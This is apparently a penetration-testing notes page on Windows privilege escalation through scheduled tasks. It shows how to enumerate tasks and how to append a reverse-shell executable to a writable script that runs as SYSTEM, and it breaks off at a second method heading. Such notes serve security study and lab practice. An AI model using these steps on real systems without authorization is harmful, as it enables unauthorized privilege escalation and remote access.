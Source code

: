 ```
## Scheduled Tasks

Windows can be set up to do tasks at certain times, on a regular basis (e.g. every 5 minutes), or in response to a specific event (e.g. a user login). Tasks are typically performed with the privileges of the person who created them, but administrators can set up tasks to run as other users, including SYSTEM.

Scheduled Tasks can be created with the Task Scheduler program in Windows.

### Enumeration

Unfortunately, as a low-privileged user account, there is no straightforward way to enumerate custom tasks that belong to other users. Unless that we have GUI access with RDP or VNC, or something with a UI so that we can use the Task Scheduler program.&#x20;

The following command list all the scheduled jobs that your user can see:

```
schtasks /query /fo LIST /v

/query = display tasks
/fo LIST = simple list output format
/v = verbose output

# Intersting Output
Next Run Time:
Last Run Time:
Task To Run:
Schedule Type:
Start Time:
Start Date:

#PowerShell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

One way to get hints can be by locating a script or log file that indicates a scheduled activity is being run, which is frequently required.

#### Scheduled Tasks Privilege Escalation

1.  Check if we have write access to the script and that's running as Administrator or SYSTEM:

    ```
    > C:\Dir\accesschk.exe /accepteula -quvw user C:\Dir\Vulnerable.ps1
    ```
2.  Create a backup of the script:

    ```
    > copy C:\Dir\Vulnerable.ps1 C:\Temp\
    ```
3. Start a listener on your host (e.g Kali or Parrot).
4.  Add a call to our reverse shell executable to the end of the script with echo:

    ```
    > echo C:\PrivEsc\reverse.exe >> C:\Dir\Vulnerable.ps1
    ```
5. To finish the exploit, wait for the scheduled task to run (it should run every x amount of time).

#### Scheduled Tasks Privilege Escalation Method #2

```